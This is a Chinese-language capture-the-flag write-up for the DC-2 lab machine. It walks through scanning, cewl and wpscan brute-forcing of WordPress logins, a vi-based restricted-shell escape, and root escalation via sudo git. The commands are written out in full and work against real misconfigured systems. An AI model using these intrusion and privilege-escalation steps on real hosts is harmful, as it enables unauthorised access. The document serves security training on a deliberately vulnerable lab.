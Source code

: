 ```yaml
---
title: DC-2实战梳理
date: 2023-05-04 17:20:15
categories: #分类
- 渗透测试
tags: #标签
  - Kali


---
```




涉及知识点
> 1. 使用 nmap 找寻并扫描靶机。
> 2. 使用 dirsearch 爆破网站目录。
> 3. 使用 cewl 制作字典。
> 4. 使用 wpscan 对 WordPress 站点进行扫描和爆破。
> 5. rbash 绕过
> 6. sudo 提权
> 7. git 提权
> 8. 修改 hosts 文件来访问网站。

<a name="A4Fdn"></a>
# 一、信息收集
<a name="Z5Rqj"></a>
## 1、IP扫描
法1、fping -g 192.168.221.0/24<br />法2、arp-scan -l
>  arp-scan  是一个用来进行系统发现的ARP命令行扫描工具（可以发现本地网络中的隐藏设备）它可以构造并发送ARP请求到指定的IP地址  
> 可以显示本地网络中的所有连接设备，即使这些设备有防火墙。防火墙设备可以屏蔽ping，但是并不能屏蔽ARP数据包。  

法3、nmap -sn 192.168.221.0/24

<a name="cOYIm"></a>
## 2、端口扫描
```python
nmap -T4 -sV -O -A -p- 192.168.221.129
#-T4(速度) 
# -sV(版本扫描和开启的服务) 
# -O(操作系统) 
# -p-（全部端口）

#did not  follow 显示不能跟踪跳转需要设置host
```
<a name="Yq4Rp"></a>
## 3、网站目录扫描
```python
# 法一：使用dirb
dirb http://192.168.221.129
# 或
dirb http://dc-2/

# 法二：使用dirsearch
dirsearch -u http://dc-2/ -e * -x 403 404

    # -u接网站地址
    # -e后接语言，可选php，asp，*（表示全部语言）等
    # -x表示过滤的状态码，扫描出来后不显示该状态
```
<a name="gXRXk"></a>
## 4、网页信息探测
> _下载浏览器插件：Wappalyzer--通过 Wappalyzer 可以识别出网站采用了那种 web 技术。它能够检测出 CMS 和电子商务系统、留言板、javascript 框架，主机面板，分析统计工具和其它的一些 web 系统。The company behind Wappalyzer 还能够收集 web 程序的一些信息用于统计分析，揭示出各种 web 系统的使用率即增长情况。实际 Wappalyzer 就是一个指纹识别工具。_

![image.png](https://cdn.nlark.com/yuque/0/2023/png/25987745/1683202962408-73ac3e1b-fe5c-420a-9880-b404c3365c76.png#averageHue=%23cbb398&clientId=u0bcc4f02-dffa-4&from=paste&height=827&id=u8dbf84d7&originHeight=827&originWidth=1310&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=163998&status=done&style=none&taskId=u37de4f1c-897f-4877-a0d7-aa5bf07fee1&title=&width=1310)

<a name="gwmA8"></a>
# 二、漏洞发现
<a name="yKSKv"></a>
## flag1、flag2
1、根据第一步信息收集中的目录扫描，找到登录界面；可以看到登陆需要用户名和密码，我们根据Flag找找线索<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/25987745/1683205505930-2aa8438e-9f65-4c0b-948b-bd88cbb2892a.png#averageHue=%23f2f2f2&clientId=u05675e4b-254f-4&from=paste&height=726&id=NSGpU&originHeight=726&originWidth=1189&originalType=binary&ratio=1&rotation=0&showTitle=false&size=53147&status=done&style=none&taskId=u03827c84-6e51-4a16-ae85-c637da5a9d8&title=&width=1189)<br />2、根据flag1的内容，提示我们使用cewl制作密码字典
```python
# 将生成的单词列表写入password.txt中
cewl http://dc-2/ -w password.txt
```
2、由于目前只有密码字典，要登陆网站还需要制作用户名字典；该网站是wordpress搭建的，有一个专门对应的漏洞扫描工具--wpscan
```python
# 枚举wordpress站点中注册过的用户名，来制作用户名字典
wpscan --url http://dc-2/ -e u
```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/25987745/1683206126585-c870b5ad-f1ec-480b-84a4-e3b4e704f735.png#averageHue=%23292f3b&clientId=u05675e4b-254f-4&from=paste&height=359&id=u2b950ae4&originHeight=441&originWidth=667&originalType=binary&ratio=1&rotation=0&showTitle=false&size=110194&status=done&style=none&taskId=ue0bb74ab-65ec-41e5-b9d9-2e6b3217305&title=&width=543)<br />3、将上面成功枚举出来的用户名，写入到文件中，作为用户名字典
```python
# 写入user.txt
vim user.txt
```
4、用wpscan调用上面生成的用户名字典和密码字典，对网站进行爆破
```python
wpscan --url http://dc-2/ -U user.txt -P password.txt
```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/25987745/1683206375271-a11a8a1d-b363-4f78-a544-f17c847ff522.png#averageHue=%23292e39&clientId=u05675e4b-254f-4&from=paste&height=413&id=ue3816cfd&originHeight=496&originWidth=636&originalType=binary&ratio=1&rotation=0&showTitle=false&size=125073&status=done&style=none&taskId=u301b860e-b307-4d4e-98f0-9960461af79&title=&width=529)<br />5、成功爆破出用户，尝试使用爆破出来的账号和密码进行登陆；发现只有jerry账号内有pages栏目，且该栏目下找到了flag2<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/25987745/1683206653327-ce093618-ba5b-4475-979e-1e02ca5be02a.png#averageHue=%23e9e5d0&clientId=u05675e4b-254f-4&from=paste&height=758&id=ud57b91b6&originHeight=758&originWidth=1447&originalType=binary&ratio=1&rotation=0&showTitle=false&size=182377&status=done&style=none&taskId=uc675de68-e6b1-4b15-ab23-a07ce44cfef&title=&width=1447)
<a name="aK5yw"></a>
## flag3
ssh登陆服务器，发现只有tom用户能登进去，ls看到有flag3.txt，此时直接vi flag3.txt。提示切换用户
```python
# 一、SSH登录到远程靶机
ssh -p 7744 tom@192.168.221.129
# 二、发现是rbash
# 三、查看可以使用哪些命令
echo $PATH
ls <上一个命令输出的路径>
# 四、用ls查看，发现了flag.txt,直接用vi
```

<a name="K8cDq"></a>
## flag4
根据flag3提示切换用户，但当前无法使用su命令，所以尝试用rbash绕过
<a name="VGomS"></a>
### rbash逃逸
```php
// 一、可以使用vi命令，通过设置shell变量的方式实现逃逸
// 1、vi进入文件中
// 2、输入
:set shell=/bin/sh
  
// 3、回车后输入
：shell
  
// 4、此时成功进入shell
// 即rbash逃逸成功，但此时有些命令还是无法执行，因为现在只是绕过了rbash的限制，用户权限还是普通用户
// 有很多的命令会出现路径异常，可以用echo $PATH查看当前的搜索路径
  
// 5、先看看我们正常的root权限的PATH是什么值
──(root㉿kali)-[/home/kali]
└─# echo $PATH                            
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/local/games:/usr/games

// 6、将上面的值复制，在目标机上修改
PATH=$PATH:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
// 也可以用 
export PATH=$PATH:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
// 如果要替换的话用
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin

```
<a name="ZKTcZ"></a>
### 切换用户
逃逸成功后加上权限，此时可以使用su切换用户
```php
// 切换用户并输入前面暴破出来的密码
su jerry

// 登陆成功后 进去用户目录,发现flag4.txt,直接cat查看
  cd /home/jerry
  ls
```
flag4提示git提权
<a name="DMZjG"></a>
## final-flag
```php
// 查看当前用户可以以root身份执行的命令
sudo -l

// 发现可以执行git命令，所以可以利用git 提权
  sudo git help config
  !/bin/bash
// 此时已经提权成功了，可以用whoami验证下，显示为root
  whoami
// 进入/root/，发现flag.
  cd /root
  ls
  
```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/25987745/1683471227451-bcd3b41b-2adb-4ac3-be1e-025331658613.png#averageHue=%23272b39&clientId=u92967187-204d-4&from=paste&height=168&id=udb06f95e&originHeight=168&originWidth=664&originalType=binary&ratio=1&rotation=0&showTitle=false&size=44088&status=done&style=none&taskId=ufc5a77ee-6507-4887-99a5-7f3f7367c54&title=&width=664)<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/25987745/1683471854013-f8b2d396-cdca-4b10-8f5b-8122b9408ceb.png#averageHue=%23262a36&clientId=u92967187-204d-4&from=paste&height=431&id=ue8d9ce7c&originHeight=431&originWidth=553&originalType=binary&ratio=1&rotation=0&showTitle=false&size=98855&status=done&style=none&taskId=u75cdd879-4622-48d2-92da-793e9473983&title=&width=553)

渗透结束
